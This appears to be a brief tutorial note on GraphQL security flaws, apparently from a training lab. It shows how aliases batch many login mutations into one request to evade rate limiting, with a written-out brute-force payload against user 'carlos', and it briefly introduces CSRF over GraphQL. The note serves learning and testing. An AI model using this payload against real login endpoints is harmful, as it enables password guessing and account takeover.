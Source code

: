 #### Bypassing GraphQL brute force protections
GraphQL properties cannot be with same name, to overcome this we use alias. Aliases were designed to limit number of API request calls, but we can use this feature to bypass ratelimiting.

Some rate limiters work based on the number of HTTP requests received rather than the number of operations performed on the endpoint. Because aliases effectively enable you to send multiple queries in a single HTTP message, they can bypass this restriction.

Here is the login request query to login to user carlos:

```
    mutation login($input: LoginInput!) {
        login(input: $input) {
            token
            success
        }
    }

Variables:
{
"input":
	{
	"username": "carlose",
	"password":"test"
	}
}
```

Our goal is to brute force the password to this user but ratelimiting is implemented, to bypass this limit we will use aliases.

```
mutation login{
bruteforce0:login(input:{password: "123456", username: "carlos"}) {
        token
        success
    }


bruteforce1:login(input:{password: "password", username: "carlos"}) {
        token
        success
    }


bruteforce2:login(input:{password: "12345678", username: "carlos"}) {
        token
        success
    }
}
```


#### Performing CSRF exploits over GraphQL
GraphQL can be used as a vector for CSRF attacks, whereby an attacker creates an exploit that causes a victim's browser to send a malicious query as the victim user.

